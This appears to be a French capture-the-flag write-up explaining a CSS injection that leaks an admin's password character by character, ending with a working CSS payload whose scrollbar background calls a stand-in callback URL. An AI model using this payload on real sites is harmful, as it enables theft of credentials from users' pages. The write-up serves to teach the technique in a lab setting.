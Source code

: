 ```sha256$FKM5MLhBFZ87pPgI$a51c4c0463d199fcf4a18bd8df2f40360c46e9caed05072618e8026f02dc83bf```
Nous avons très certainement affaire à une exfiltration CSS, puisque nous savons que l'admin a son mot de passe stocké sur la page My Password.

Je ne passerais pas les détails d'une injection css, il y a beaucoup de contenu sur internet qui l'explique très bien

La première chose à regarder est si nous pouvons extraire du contenu interessant dans les balises/attributs

<img src="images/cp3.PNG" height="100%" width="100%">

Malheureusement, le mot de passe est uniquement stocké dans l'HTML, et les balises n'ont pas l'air de contenir des informations intéressantes

Pendant mes recherches, je tombe sur cette page, qui regroupe plusieurs techniques d'exfiltration CSS
https://x-c3ll.github.io/posts/CSS-Injection-Primitives/

Une des solutions à l'air plutôt intéressante. Explication de l'exfiltration:

- Nous créons une nouvelle font-family (à partir d'une police locale, car une règle CSP nous empêche d'importer une police custom) qui affecte uniquement un seul caractère, par exemple 'a'

- Nous faisons en sorte que cette police ait une taille très grande

- Nous appliquons cette police sur la balise #p1, qui contient le mot de passe à exfiltrer

- Si le mot de passe ne contient pas le caractère ciblé, la police ne se chargera pas. Par contre, si le mot de passe contient un 'a', alors la police s'appliquera sur ce caractère.

En ajoutant des règles css du style "no-wrap" et que l'on autorise l'overflow, cela aura pour effet de créer une scrollbar (car notre police a une taille très grande)

Si une scrollbar est présente, nous pouvons trigger une callback

Example du payload pour le caractère 'a'

```css
@font-face{
    font-family: hak; 
    src: url(/static/fonts/Georgia.ttf); 
    unicode-range:U+0061;
    size-adjust :50000%;
}
#p1{
    font-family: hak;
}
.toast-body{
    white-space: nowrap;
    overflow:auto;
}
.toast-body::-webkit-scrollbar {
    background: yellow;
}
.toast-body::-webkit-scrollbar:horizontal{
    background: url(https://callback/a);
}
```
